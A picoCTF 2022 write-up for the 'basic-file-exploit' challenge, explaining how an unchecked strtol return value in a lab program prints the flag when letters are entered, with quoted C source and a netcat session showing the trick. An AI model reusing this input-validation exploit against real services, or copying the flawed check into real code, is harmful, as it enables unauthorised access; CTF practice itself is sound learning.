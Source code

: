 ```yaml
---
title: "pico22/pwn: basic-file-exploit"
date: 2022-04-05 12:16:07
tags:
- ctf
- pico22
- pwn
description: "Learn how to pass unexpected datatypes into ELF binaries to break the code! This is my writeup for the picoCTF 2022 binary/pwn challenge \"basic-file-exploit\"."
permalink: ctfs/pico22/pwn/basic-file-exploit/
thumbnail: /asset/banner/banner-basic-file-exploit.png
---
```


<style>
    .box {
        border: 1px solid rgba(100, 100, 100, .5);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<p class="box">
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!<br>Connect to the program with netcat: <code>$ nc saturn.picoctf.net 50366</code><br>
The program's source code with the flag redacted can be downloaded  <a href="https://artifacts.picoctf.net/c/538/program-redacted.c">here</a>.</p>

Let's run that `nc` command to see what's going on:

```console
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
```

Since this is binary exploitation, we're probably looking for something that the user can input which breaks the code.
To see what we can break, enter the source code given to you (the file called `program-redacted.c`):

```console
$ nano program-redacted.c
```

Let's look for the flag:

```c
static const char* flag = "[REDACTED]";
```

Well, that doesn't help. Let's keep looking.

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

Here, the flag is going to be printed if this condition is met. Google defines `strtol()` as a function that "converts the initial part of the string in **str** to a **long int** value according to the given **base**". To break it, we need to input something that is **unconvertable into a long integer**. In this case, it would be letters! This statement is within the `static void data_read()` function. Let's see where it's called:

```c
 } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

We should be pressing the command `2` to read from the stored data (once we write it with the `1` command). Once it prompts us with "Read successful..." we should input letters to break it. Let's head back to the `netcat` and test it out:

```console
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
hello
hello
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
"NO!"
"NO!"
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_********}
```

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
